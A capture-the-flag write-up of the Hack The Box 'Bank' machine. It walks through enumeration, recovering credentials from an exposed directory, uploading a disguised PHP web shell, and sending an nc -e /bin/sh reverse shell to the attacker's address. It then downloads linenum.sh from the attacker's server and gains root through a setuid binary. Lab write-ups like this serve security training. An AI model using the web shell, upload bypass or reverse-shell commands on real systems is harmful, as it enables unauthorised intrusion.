





---
search:
  exclude: true
---
# Bank Writeup

## Introduction :

Bank is an easy Linux box that was released back in June 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.29
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-14 06:55 CET
      Nmap scan report for bank.htb (10.10.10.29)
      Host is up (0.065s latency).
      Not shown: 997 closed ports
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
      |   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
      |   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
      |_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
      53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
      | dns-nsid:
      |_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
      80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
      |_http-server-header: Apache/2.4.7 (Ubuntu)
      | http-title: HTB Bank - Login
      |_Requested resource was login.php
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 18.18 seconds
    

## **Part 2 : Getting User Access**

First of all we will browse to the Apparent apache 2.4.7 from within our web browser to see if we can find a little more details.

There is something strange here, our nmap scans told us that we would meet a login.php page  The problem is simply that HTB doesn't do DNS so we will need to add 10.10.10.29 to our /etc/hosts file. with the alias **bank.htb**
    
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist] → nano /etc/hosts
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist] → cat /etc/hosts
      10.10.10.29 bank.htb
      10.10.10.76 sunday.htb
      127.0.0.1   localhost
      127.0.1.1   prometheus
      ::1     localhost ip6-localhost ip6-loopback
      ff02::1 ip6-allnodes
      ff02::2 ip6-allrouters
    

Once we browse to the new alias bank.htb , we see that it finally redirects us to the login page **login.php** that our nmap scan picked up.

To find out which diretories are available for this http service, we run a dirbusting command such as **gobuster**
    
    
    λ root [ 10.10.14.48/23 ] [/home/nihilist] → gobuster -u http://bank.htb/ -w /usr/share/wordlist
    

Give it some time to run, and looking at the results, we see that the process found the **/balance-transfer/** directory  gobuster also found the /uploads/ directory but for now we won't use it, it will be of use later on.  We can browse to it from within our web browser, but for this example we will use the lynx command.
    
    
    λ root [ 10.10.14.48/23 ] [/home/nihilist] → lynx http://bank.htb/balance-transfer/
    

Here we can see that the page is giving us a bunch of encrypted files that have the exact size of 583 or 584.  If we scroll down a bit we will end up seeing that there is one specific file that does not match this 583 size. 

Within lynx we just need to press Enter once the correct hyperlink is selected, and it takes us to an unencrypted account file for the user chris. Revealing his strong password. 

We now have credentials to work with : **chris@bank.htb : !##HTBB4nkP4ssw0rd!##** We will try them onto the login page that our nmap scan picked up before.

And we are logged in ! we have access to the user christos Christopoulos, the credentials worked on login.php.  For our next step we navigate to the php support page that allows us to choose files to submit tickets.  We will upload a malicious php file to which we will make sure that the extension ending it is not .php but something else. here we will name it **nihilist.php.htb**

    
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bank] → nano nihilist.php.htb
    
      <****?php echo (system($_GET['go'])); ?>

let's see if we can upload our ticket, therefore uploading our malicious disguised php file. 

 

We have been successful in uploading our ticket containing our malicious nihilist.php.htb file. We can browse to it using our web browser, but for this example we will use the curl command.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~] → curl -vsk "http://bank.htb/uploads/nihilist.php.htb?go=id"
    *   Trying 10.10.10.29:80...
    * TCP_NODELAY set
    * Connected to bank.htb (10.10.10.29) port 80 (#0)
    > GET /uploads/nihilist.php.htb?go=id HTTP/1.1
    > Host: bank.htb
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Thu, 14 Nov 2019 08:27:54 GMT
    < Server: Apache/2.4.7 (Ubuntu)
    < X-Powered-By: PHP/5.5.9-1ubuntu4.21
    < Vary: Accept-Encoding
    < Content-Length: 107
    < Content-Type: text/html
    <
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    * Connection #0 to host bank.htb left intact
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

we see that the malicious php file we uploaded gave us access to the system, we will now use the malicious php file to send us a reverse shell to our second terminal. 

We will browse to our malicious php file within our terminal using the curl syntax we used before, and tell it to connect back to us on port 6969. One important thing to note though is that we cannot leave the URL as displayed below.
    
    
      http://bank.htb/uploads/nihilist.php.htb?go=nc -e /bin/sh 10.10.14.48 6969
    

We need to replace the **spaces** with their equivalent **%20**
    
    
      http://bank.htb/uploads/nihilist.php.htb?go=nc**%20** -e**%20** /bin/sh**%20** 10.10.14.48**%20** 6969
    

Now let's test it with our corrected URL 

_Terminal 1 :_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nc -lvnp 6969
    

_Terminal 2 :_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → curl -vsk "http://bank.htb/uploads/nihilist.php.htb?go=nc%20-e%20/bin/sh%2010.10.14.48%206969"
    *   Trying 10.10.10.29:80...
    * TCP_NODELAY set
    * Connected to bank.htb (10.10.10.29) port 80 (#0)
    > GET /uploads/nihilist.php.htb?go=nc%20-e%20/bin/sh%2010.10.14.48%206969 HTTP/1.1
    > Host: bank.htb
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    

_Terminal 1 :_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nc -lvnp 6969
    Connection from 10.10.10.29:52558
    
    uname -a
    Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
    
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    cat /home/chris/user.txt
    37XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Part 3 : Getting Root Access**

Now that we have user access, we need to escalate privileges on this box. For that matter we will first upload linenum.sh on the box using python3's http server module.

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → cd _HTB/Bank
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bank] → ls
      68576f20e9732f1b2edc4df5b8533230.acc
      nihilist.php.htb
      linenum.sh
      node_modules
      package-lock.json
      progress.graphml
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bank] → python3 -m http.server 8000
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
      10.10.10.29 - - [14/Nov/2019 09:55:51] "GET /linenum.sh HTTP/1.1" 200 -
    
    
    

_Terminal 2:_
    
    
      which wget
      /usr/bin/wget
    
      wget 10.10.14.48:8000/linenum.sh
      ./linenum.sh > output.txt
    
      python -c 'import pty; pty.spawn("/bin/bash")'
      www-data@bank:/var/www/bank/uploads$ id
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      www-data@bank:/var/www/bank/uploads$
    

Now we have a semi-interactive shell  Let's navigate to /var/htb/bin to run the binary called **emergency**
    
    
      www-data@bank:/var/www/bank/uploads$ cd /var/htb/bin
      cd /var/htb/bin
    
      www-data@bank:/var/htb/bin$ ls
      ls
      emergency
    
      www-data@bank:/var/htb/bin$ ls -l
      ls -l
      total 112
      -rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency
    
      www-data@bank:/var/htb/bin$ ./emergency
      ./emergency
    
      # id
      id
      uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
    
      # cat /root/root.txt
      cat /root/root.txt
      d5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

Executing the aforementioned binary gave us an elevation of privileges, and we have been able to read the root.txt 

## **Conclusion**

Here we can see the progress graph :

